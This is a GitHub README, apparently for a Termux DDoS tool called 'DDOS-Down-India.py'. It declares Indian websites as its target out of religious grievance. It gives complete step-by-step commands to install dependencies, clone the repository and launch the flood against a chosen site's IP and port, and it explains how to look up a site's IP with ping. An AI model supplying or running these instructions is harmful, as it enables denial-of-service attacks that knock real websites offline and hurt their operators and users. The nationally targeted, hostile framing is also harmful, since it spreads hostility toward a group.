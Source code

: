 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

# Run Or Install DDOS

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
git clone https://github.com/Cyber-Nirob-Official/DDOS
cd DDOS
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
(IP) = Remove () Or Enter Website IP

# How To Find IP?
Open Termux App
Example :
ping www.facebook.com
$Then Enter
Then Show Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pip2 install mechanize bs4 lolcat
```
